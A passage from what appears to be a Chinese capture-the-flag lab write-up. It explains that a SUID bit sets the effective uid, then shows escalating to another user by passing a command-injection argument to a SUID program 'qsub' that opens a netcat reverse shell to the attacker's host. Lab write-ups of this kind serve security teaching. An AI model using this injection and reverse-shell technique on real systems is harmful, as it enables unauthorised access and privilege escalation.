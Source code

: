 另外一提，suid bit 其实设置的是 euid，不是 uid。并不是真正意义上的 pinky 用户，只是程序运行时临时借用 pinky 权限。

[![](assets/1703831476-1faf057a8f99308155a82acf90a32318.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224604-a954709a-a4c6-1.png)

## 八、shell as user2（suid）

执行 suid 程序，拼接反弹 shell 语句，密码为环境变量$TERM 的值 xterm-256color，可以看到 uid 是 1000。  
（测试过程中，这里如果拼接 bash -p 虽然可以保留 euid，拿到 pinky 用户权限，可以 cd 切换目录但是输入命令会无后续回显。如果拼接反弹 shell 就正常了）

```bash
./qsub '&(nc 192.168.80.129 2211 -e /bin/bash)'
```

[![](assets/1703831476-144948045656b06bb9019920366f04d7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224617-b146fade-a4c6-1.png)
